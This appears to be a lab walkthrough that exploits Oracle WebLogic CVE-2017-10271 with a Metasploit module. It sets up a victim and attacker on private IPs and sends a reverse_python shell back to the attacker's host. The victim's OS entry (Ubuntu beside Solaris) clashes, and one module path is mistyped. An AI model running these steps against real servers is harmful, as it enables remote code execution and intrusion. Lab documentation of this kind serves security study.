

# [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**

***


# **Environment**

| Type       | OS              | IP              | App                                      |
| :---       | :---            | :---            | :---                                     |
| Victim     | Ubuntu 18.04.3  | 192.168.108.131 | Solaris 11.4 x86</br>WebLogic 12.1.3.0.0 |
| Attacker   | Kali 2019       | 192.168.108.132 |                                          |

# **Setting**

```sh
root@srv:~# cd /export/home/oracle/Oracle/Middleware/Oracle_Home/user_projects/domains/base_domain
root@srv:~# ./startWebLogic.sh
```


# **Exploit**

```sh
root@attack:~# msfconsole
msf5 > search cve-2017-10271
```


```sh
msf5 > use exploit/multi/http/oracle_weblogic_wsat_deserialization_rce
msf5 exploit(multi/httporacle_weblogic_wsat_deserialization_rce) > set target 1
msf5 exploit(multi/httporacle_weblogic_wsat_deserialization_rce) > set payload cmd/unix/reverse_python
msf5 exploit(multi/httporacle_weblogic_wsat_deserialization_rce) > set lhost 192.168.108.132
msf5 exploit(multi/httporacle_weblogic_wsat_deserialization_rce) > set rhost 192.168.108.131
msf5 exploit(multi/httporacle_weblogic_wsat_deserialization_rce) > exploit
```

